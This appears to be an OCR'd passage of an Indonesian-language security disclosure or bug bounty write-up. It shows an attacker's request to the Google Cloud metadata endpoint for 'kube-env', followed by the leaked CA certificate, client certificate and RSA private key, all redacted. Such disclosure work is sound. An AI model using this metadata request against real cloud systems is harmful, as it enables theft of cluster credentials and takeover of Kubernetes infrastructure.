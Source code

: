 attacker kemudian membuat request baru :

http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json

**CA.CRT**

```
-----BEGIN CERTIFICATE-----
██████
███████
███████
████████
██████████████
████████
████████
███████
████
██████
███
█████████
████
████
████████
███████
███
-----END CERTIFICATE-----
```

**CLIENT.CRT**

```
-----BEGIN CERTIFICATE-----
█████
███████
██████
████████
██████████
█████
██████
█████
█████
██████████
███████
█████
████
████
████████
████████
-----END CERTIFICATE-----
```

**CLIENT.PEM**

```
-----BEGIN RSA PRIVATE KEY-----
█████████
██████
████████
████
████
█████████
██████████
██████
████████
█████████
██████
██████████
███
```